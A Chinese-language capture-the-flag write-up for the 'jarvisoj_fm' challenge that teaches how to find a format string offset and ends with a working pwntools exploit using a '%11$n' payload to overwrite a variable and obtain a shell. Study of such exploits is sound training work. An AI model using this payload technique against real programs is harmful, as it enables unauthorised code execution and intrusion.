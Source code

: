 # pwn初学者的进阶（一）：格式化字符串


> [题目链接](https://buuoj.cn/challenges#jarvisoj_fm)

checksec 结果

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
IDA分析

![image-20210828140628177](image-20210828140628177.png "IDA")

很明显，存在格式化字符串漏洞。通过`x==4`的判断就能够拿到shell，那应该就是利用[格式化字符串覆盖指定地址内容](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_13)。

格式化字符串漏洞类型的pwn，核心就在于确定格式化字符串的偏移。因为一般来说在调用`printf(buf)`的时候，栈布局是这样的，所以我们得通过gdb调试等手段来判断**格式化字符串的起始地址的偏移**。

```
          ....
low -----------------

    -----------------
    	 old ebp
    -----------------stack of printf()
         ret addr
    ----------------       ---------
   arg1: addr of fmt_str       |
    -----------------          |
                             offset
							   |
                               |
addr-----------------      ---------
  format string content
  		........
high-----------------
          ....
```

最常用的方法是输入`aaaa`/`aaaaaaaa`＋`%p.%p.....`，通过看`0x61`在哪开始出现来判断偏移。

![image-20210827234341173](image-20210827234341173.png)

当然，在调试的时候也能够通过计算得出偏移，如本题的偏移就为`(0x9c-0x70)/4=11`（因为是32位，字长位4字节）。

![image-20210827234409770](image-20210827234409770.png)

再结合IDA查找变量`x`的地址，就可以写exp了。

```python
from pwn import *

context.os = "linux"
context.arch = "i386"

# context.log_level = "debug"

if args.LOCAL:
    p = process("./fm")
else:
    p = remote("node4.buuoj.cn", 28965)

x_addr = 0x804a02c
format_str_offset = 11

payload = p32(x_addr)+b'%11$n'
p.sendline(payload)

p.interactive()
```


